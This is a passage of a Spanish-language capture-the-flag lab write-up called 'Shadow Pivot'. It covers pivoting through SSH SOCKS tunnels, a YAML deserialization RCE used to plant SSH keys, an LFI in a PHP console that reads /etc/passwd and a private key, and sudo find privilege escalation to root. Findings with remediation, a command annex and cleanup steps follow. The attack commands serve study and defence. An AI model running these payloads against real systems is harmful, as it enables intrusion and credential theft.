

```bash
PUB=$(base64 -w0 loot/pivot_secops.pub)
python3 exploits/yaml_rce.py \
  "mkdir -p /home/secops/.ssh && echo $PUB | base64 -d > /home/secops/.ssh/authorized_keys && chmod 700 /home/secops/.ssh && chmod 600 /home/secops/.ssh/authorized_keys"

proxychains4 -q ssh -F notes/ssh_config pivot \
  'cat /tmp/yaml_id.txt; cat /home/secops/user.txt'
# uid=1000(secops) gid=1000(secops) groups=1000(secops)
# PivotLabs{PIVOT_USER_REDACTED}
```

La clave `loot/pivot_secops` tiene fingerprint `SHA256:G24qavAwpkufYvBfNnZMGomTbXCHFcYRUISdA3jsmIY`.

---

## 6. Fase 3 — Vault (`172.25.3.30`)

### 6.1 Segundo salto y enumeración

Desde pivot se abre un segundo SOCKS hacia `172.25.3.0/24`:

```bash
proxychains4 -q ssh -D 1081 -N -f -i loot/pivot_secops secops@172.25.2.20
python3 bin/socks_scan.py 127.0.0.1:1081 172.25.3.30 1 10000
```



```text
172.25.3.30: [22, 8081, 9090]
```

- `22/tcp` — SSH real.
- `8081/tcp` — servidor estático simulado (“Internal Docs”).
- `9090/tcp` — consola PHP `VaultKey Enterprise Core v1.1`.

### 6.2 Consola VaultKey



```bash
curl -s --socks5-hostname 127.0.0.1:1081 http://172.25.3.30:9090/ \
  | grep -E 'title>|VaultKey|view.php'
```

```html
<title>VaultKey Enterprise Core v1.1</title>
<h1>VaultKey Core Console v1.1</h1>
<p><a href="/view.php?page=status">Inspect Cluster Component Status</a></p>
```

El parámetro `page` es un inclujo directo:



```bash
curl -s --socks5-hostname 127.0.0.1:1081 \
  'http://172.25.3.30:9090/view.php?page=../../../../etc/passwd' | tail -6
```

```text
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
vaultadmin:x:1000:1000::/home/vaultadmin:/bin/bash
```

El código de `view.php` no aplica validación ni allowlist:

```php
<?php
$page = $_GET['page'] ?? 'status';
if (file_exists($page)) {
    include($page);
} else if (file_exists($page . ".php")) {
    include($page . ".php");
} else {
    echo "Component not found.";
}
?>
```

La única comprobación es `file_exists`, por lo que se pueden leer rutas absolutas y relativas. Un `php://filter` no es necesario para este objetivo; además, incluir `view.php` sobre sí mismo provoca recursión y tumba el servidor PHP de un solo hilo (ver nota operativa).

### 6.3 Clave privada expuesta

El archivo `/tmp/keys/id_rsa` existe con permisos `0644` y es legible por `www-data`:



```bash
curl -s --socks5-hostname 127.0.0.1:1081 \
  'http://172.25.3.30:9090/view.php?page=/tmp/keys/id_rsa' \
  -o loot/vault_id_rsa
chmod 600 loot/vault_id_rsa
head -2 loot/vault_id_rsa
```

```text
<REDACTED_PRIVATE_KEY_BLOCK>
```

La clave corresponde a `vaultadmin@vaultkey.local` y tiene fingerprint `SHA256:bGCtmZwxB9nqX+eTk0SNczfLf5Yqb3VbgxH8sI6kqJk`.

### 6.4 Acceso SSH y flag de usuario



```bash
proxychains4 -f notes/proxychains_vault.conf -q ssh -F notes/ssh_config vault \
  'id; cat /home/vaultadmin/user.txt'
# uid=1000(vaultadmin) gid=1000(vaultadmin) groups=1000(vaultadmin)
# PivotLabs{VAULT_USER_REDACTED}
```

### 6.5 Escalada a root con `sudo find`

La enumeración de sudoers muestra una regla excesivamente permisiva:



```bash
proxychains4 -f notes/proxychains_vault.conf -q ssh -F notes/ssh_config vault \
  'sudo -n -l'
```

```text
User vaultadmin may run the following commands on vault:
    (ALL) NOPASSWD: /usr/bin/find
```

`find` es un binario GTFOBins. La opción `-exec` permite ejecutar comandos como root:

```bash
sudo /usr/bin/find / -maxdepth 0 -exec cat /root/flag.txt \;
```



```text
PivotLabs{VAULT_ROOT_REDACTED}
```

También es posible obtener una shell root interactiva con:

```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

---

## 7. Flags

| # | Host | Ruta | Flag |
|---|---|---|---|
| 1 | Edge | `/home/webops/user.txt` | `PivotLabs{EDGE_USER_REDACTED}` |
| 2 | Pivot | `/home/secops/user.txt` | `PivotLabs{PIVOT_USER_REDACTED}` |
| 3 | Vault | `/home/vaultadmin/user.txt` | `PivotLabs{VAULT_USER_REDACTED}` |
| 4 | Vault (root) | `/root/flag.txt` | `PivotLabs{VAULT_ROOT_REDACTED}` |

### 7.1 Validación de la flag

La plataforma confirmó la flag de root. En la captura, la flag aparece difuminada:



---

## 8. Hallazgos y recomendaciones

### 8.1 SSTI con RCE en el perímetro — Crítica

**Activo:** Edge `172.25.1.10`, `POST /api/reports/generator`.
**Impacto:** ejecución de comandos como `webops` sin autenticación; exposición de flags, configuración interna y token de cluster.
**Causa:** `render_template_string` sobre entrada no confiable y una lista negra insuficiente.
**Remediación:**

- No renderizar plantillas construidas por el usuario; usar plantillas estáticas y pasar datos como variables.
- Si el requisito es dinámico, usar `jinja2.sandbox.SandboxedEnvironment` y una allowlist estricta.
- Validar el parámetro con un esquema (tipo, longitud, caracteres) y rechazar expresiones Jinja2.
- Ejecutar el servicio con un usuario de bajo privilegio y sin acceso a secretos en el filesystem.

### 8.2 Deserialización YAML insegura — Crítica

**Activo:** Pivot `172.25.2.20`, `POST /api/v1/sync/task`.
**Impacto:** RCE como `secops` con el token filtrado; movimiento lateral al segmento de vault.
**Causa:** `yaml.load(content, Loader=yaml.Loader)` sobre el cuerpo HTTP.
**Remediación:**

- Usar `yaml.safe_load` y validar el esquema del documento.
- No aceptar YAML si el contrato puede ser JSON; en su caso, usar `json.loads`.
- Rotar el token y almacenarlo en un gestor de secretos; no reutilizarlo entre segmentos.
- Añadir autenticación mutua y autorización por operación, no solo un token estático.

### 8.3 LFI en la consola VaultKey — Crítica

**Activo:** Vault `172.25.3.30`, `GET /view.php?page=`.
**Impacto:** lectura arbitraria de archivos, incluida la clave privada SSH de `vaultadmin`; acceso al host.
**Causa:** `include($page)` con validación basada solo en `file_exists`.
**Remediación:**

- Sustituir el include dinámico por un mapa de vistas permitidas (`status`, `health`, etc.).
- Normalizar con `basename()` y comparar contra una allowlist; rechazar rutas absolutas y `..`.
- Ejecutar PHP con `open_basedir` restringido y sin acceso a `/tmp/keys`.
- No almacenar claves privadas en el filesystem del servidor web.

### 8.4 Clave privada SSH world-readable — Crítica

**Activo:** Vault, `/tmp/keys/id_rsa` (`0644`).
**Impacto:** suplantación de `vaultadmin` y acceso persistente.
**Remediación:**

- Eliminar claves privadas de `/tmp` y de la imagen; usar un gestor de secretos o certificados SSH de corta duración.
- Si es imprescindible, permisos `0600` y propietario correcto; auditar con `find / -perm -004`.
- Rotar la clave y revisar `authorized_keys`.

### 8.5 `sudo NOPASSWD` sobre `find` — Alta

**Activo:** Vault, usuario `vaultadmin`.
**Impacto:** escalada trivial a root mediante `-exec`.
**Remediación:**

- Eliminar la regla; si se necesita inspección de archivos, usar un script propio con argumentos validados.
- Revisar GTFOBins y evitar `NOPASSWD` sobre intérpretes, editores, paginadores o binarios con `-exec`.
- Monitorizar ejecuciones de `sudo` y alertar sobre `find` con `-exec`.

### 8.6 Token estático en `cluster.json` — Alta

**Activo:** Edge, `/opt/netpulse/cluster.json`.
**Impacto:** el compromiso del servidor web entrega la autenticación del segmento interno.
**Remediación:**

- Sacar el token del filesystem world-readable; usar variables de entorno inyectadas por el orquestador o un secrets manager.
- Tokens de corta duración, rotación y alcance mínimo por operación.
- mTLS entre edge y pivot; no confiar solo en un header.

### 8.7 Secretos y flags en capas de imagen — Alta

La inspección offline de `shadow_pivot.tar` muestra que `sys-daemon.c` contiene un script base64 con:

- Contraseña de `vaultadmin`: `<REDACTED_VAULTADMIN_PASSWORD>`.
- Contraseña de `root`: `<REDACTED_ROOT_PASSWORD>`.
- Flags de usuario y root.
- La clave pública de `vaultadmin`.

**Impacto:** cualquiera con acceso a la imagen puede extraer credenciales y flags sin explotar la aplicación. En un entorno real, esto invalida la segregación de secretos.
**Remediación:**

- No incrustar credenciales ni flags en imágenes; usar secretos efímeros y un gestor.
- Construir con multi-stage y eliminar material sensible de las capas finales.
- Escanear imágenes con `trivy`, `grype` o `docker scout`; firmar y verificar procedencia.
- Rotar las credenciales expuestas.

### 8.8 Segmentación permeable — Media

Edge y pivot son dual-homed y permiten reenvío TCP sin restricciones. Un SOCKS sobre SSH atraviesa los tres segmentos.
**Remediación:**

- Políticas de firewall entre DMZ, corp y vault; solo los flujos estrictamente necesarios.
- Restringir `AllowTcpForwarding`, `PermitOpen` y `GatewayPorts` en SSH.
- Segmentación con proxies de aplicación autenticados, no con rutas IP planas.
- Detección de túneles y de conexiones SSH salientes anomalas.

### 8.9 Servicios señuelo — Informativa

FTP, SMTP, POP3, MySQL, Webmin, Redis y Elasticsearch son mocks. Aumentan el ruido de enumeración y pueden inducir a pérdida de tiempo, pero no otorgan acceso. Se recomienda etiquetarlos como telemetría o retirarlos para reducir la superficie.

---

## 9. Anexos

### 9.1 Comandos clave

```bash
# Reconocimiento
nmap -Pn -sT --top-ports 1000 --min-rate 1000 172.25.1.10
nmap -Pn -sT -sV -p21,22,25,80,110,3306,8088 172.25.1.10

# SSTI / RCE edge
curl -s -X POST -H 'Content-Type: application/json' \
  -d '{"template_name":"{{7*7}}"}' \
  http://172.25.1.10/api/reports/generator
python3 exploits/ssti.py 'id'
python3 exploits/ssti.py 'cat /home/webops/user.txt'
python3 exploits/ssti.py 'cat /opt/netpulse/cluster.json'

# Túnel 1 y API interna
ssh -D 1080 -N -f -i loot/edge_webops webops@172.25.1.10
python3 bin/socks_scan.py 127.0.0.1:1080 172.25.2.20 1 10000
curl -s --socks5-hostname 127.0.0.1:1080 http://172.25.2.20:8000/

# YAML / RCE pivot
python3 exploits/yaml_rce.py 'id > /tmp/yaml_id.txt'
proxychains4 -q ssh -F notes/ssh_config pivot 'cat /tmp/yaml_id.txt'

# Túnel 2 y vault
proxychains4 -q ssh -D 1081 -N -f -i loot/pivot_secops secops@172.25.2.20
python3 bin/socks_scan.py 127.0.0.1:1081 172.25.3.30 1 10000
curl -s --socks5-hostname 127.0.0.1:1081 \
  'http://172.25.3.30:9090/view.php?page=../../../../etc/passwd'

# LFI, SSH y root
curl -s --socks5-hostname 127.0.0.1:1081 \
  'http://172.25.3.30:9090/view.php?page=/tmp/keys/id_rsa' -o loot/vault_id_rsa
chmod 600 loot/vault_id_rsa
proxychains4 -f notes/proxychains_vault.conf -q ssh -F notes/ssh_config vault \
  'id; cat /home/vaultadmin/user.txt'
proxychains4 -f notes/proxychains_vault.conf -q ssh -F notes/ssh_config vault \
  'sudo -n -l'
proxychains4 -f notes/proxychains_vault.conf -q ssh -F notes/ssh_config vault \
  'sudo /usr/bin/find / -maxdepth 0 -exec cat /root/flag.txt \;'
```

### 9.2 Inventario de archivos

```text
GitHub/
├── README.md
├── WRITEUP.md
├── scans/
│   ├── nmap_allports_edge.txt
│   ├── nmap_services.txt
│   ├── pivot_ports.txt
│   └── vault_ports.txt
└── screenshots/               # 20 capturas (01–20)
```

### 9.3 Índice de evidencias

| Archivo | Contenido |
|---|---|
| `01_recon_ports.png` | Barrido inicial de puertos |
| `02_recon_services.png` | Detección de versiones |
| `03_web_index.png` | Portal NetPulse y endpoints |
| `04_ssti_test.png` | `{{7*7}}` → `49` |
| `05_ssti_rce_id.png` | RCE como `webops` |
| `06_edge_flag.png` | Flag de usuario de edge |
| `07_cluster_json.png` | Token y gateway interno |
| `08_socks_tunnel.png` | Túneles 1080/1081 y API interna |
| `09_pivot_ports.png` | Puertos del pivot |
| `10_pivot_yaml_rce.png` | Deserialización YAML |
| `11_pivot_flag.png` | Flag de usuario del pivot |
| `12_pivot_source.png` | `yaml.load` inseguro |
| `13_vault_ports.png` | Puertos de vault |
| `14_vault_index.png` | Consola VaultKey |
| `15_vault_lfi_passwd.png` | LFI de `/etc/passwd` |
| `16_vault_lfi_key.png` | LFI de `id_rsa` |
| `17_vault_ssh_flag.png` | SSH como `vaultadmin` y flag |
| `18_vault_sudo.png` | Regla `NOPASSWD: find` |
| `19_vault_root_flag.png` | Flag de root |
| `20_validacion_flag.png` | Validación de la flag de root |

Las capturas `06`, `07`, `11`, `16`, `17`, `19` y `20` tienen difuminadas las regiones con flags, tokens o material de clave privada.

### 9.4 Nota operativa

El servidor PHP de vault es el servidor embebido de un solo hilo. Durante la validación de la LFI, incluir `view.php` sobre sí mismo (`page=view.php`) provocó recursión y dejó el proceso sin responder. El servicio se restauró iniciando de nuevo `php -S 0.0.0.0:9090` como `www-data` desde una sesión root (obtenida con la propia escalada). La restauración no afectó a la cadena ni a las flags; el estado final del servicio es operativo.

### 9.5 Limpieza

Para revertir la persistencia de auditoría:

```bash
ssh -F notes/ssh_config edge 'rm -f /home/webops/.ssh/authorized_keys'
proxychains4 -q ssh -F notes/ssh_config pivot \
  'rm -f /home/secops/.ssh/authorized_keys /tmp/yaml_id.txt /tmp/pscan.py'
pkill -f '[s]sh -D 1080'
pkill -f '[s]sh -D 1081'
```

Las claves de `loot/` se conservan como evidencia. Tras la limpieza, las claves de edge y pivot ya no están autorizadas; la clave de vault es la clave original del laboratorio y seguirá siendo válida hasta que se rote.

---

## 10. Conclusiones

Shadow Pivot demuestra una cadena de compromiso realista: una vulnerabilidad de plantillas en el perímetro entrega credenciales internas; una API que confía en un token estático y deserializa YAML permite el segundo salto; una LFI con una clave privada legible permite el acceso al segmento crítico; y una regla de sudo mal configurada convierte el acceso en root.

La lección principal es que **la segmentación de red no compensa los fallos de aplicación**: el token, la clave privada y la regla de sudo estaban en el lado “confiable” de cada frontera. La defensa debe combinar validación de entrada, deserialización segura, gestión de secretos, mínimo privilegio y controles de reenvío entre segmentos.

---

### Referencias

- GTFOBins — `find`: <https://gtfobins.github.io/gtfobins/find/>
- PortSwigger — Server-side template injection: <https://portswigger.net/web-security/server-side-template-injection>
- PyYAML — `safe_load`: <https://pyyaml.org/wiki/PyYAMLDocumentation>
- OWASP — Path Traversal: <https://owasp.org/www-community/attacks/Path_Traversal>
- OWASP — Deserialization: <https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data>
